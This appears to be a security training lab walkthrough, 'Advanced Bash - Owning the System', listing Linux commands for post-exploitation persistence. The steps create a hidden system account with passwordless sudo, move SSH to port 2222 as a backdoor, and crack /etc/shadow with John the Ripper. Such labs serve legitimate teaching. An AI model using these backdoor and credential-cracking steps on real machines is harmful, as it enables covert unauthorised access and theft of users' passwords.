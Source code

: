 # Advanced Bash - Owning the System

Step 1: Shadow People
- 1. Create a secret user named sysd. Make sure this user doesn't have a home folder created:
  - sudo useradd --system --no-create-home sysd

![](/Linux/Images/AB-1-create-user.png)
![](Linux/Images/AB-1-create-user.png)

- 2. Give your secret user a password:
  - Sudo passwd sysd



- 3. Give your secret user a system UID < 1000
    - sudo usermod -u 997 sysd




- 4. Give your secret user the same GID:
    - sudo groupmod -g 997 sysd


- 5. Give your secret user full sudo access without the need for a password:
    - sudo visudo


- 6. Test that sudo access works without your password:
    - su sysd
    - Passw0rd










- Step 2: Smooth Sailing
  - 1. Edit the sshd_config file:
    - sudo nano /etc/ssh/sshd_config




- Step 3: Testing Your Configuration Update
  - 1. Restart the SSH service:
    - systemctl restart ssh

 - 2. Exit the root account
    - exit   (see bottom of the screenshot to see “exit”)




  - 3. SSH to the target machine using your sysd account and port 2222:
    - ssh sysd@192.168.1.23 -p 2222




  - 4. Use sudo to switch to the root user:
    - sudo su root




- Step 4: Crack All the Passwords
  - 1. SSH back to the system using your sysd account and port 2222:
    - ssh sysd@192.168.1.23 -p 22


 - 2. Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:
    - sudo su root
    - john /etc/shadow
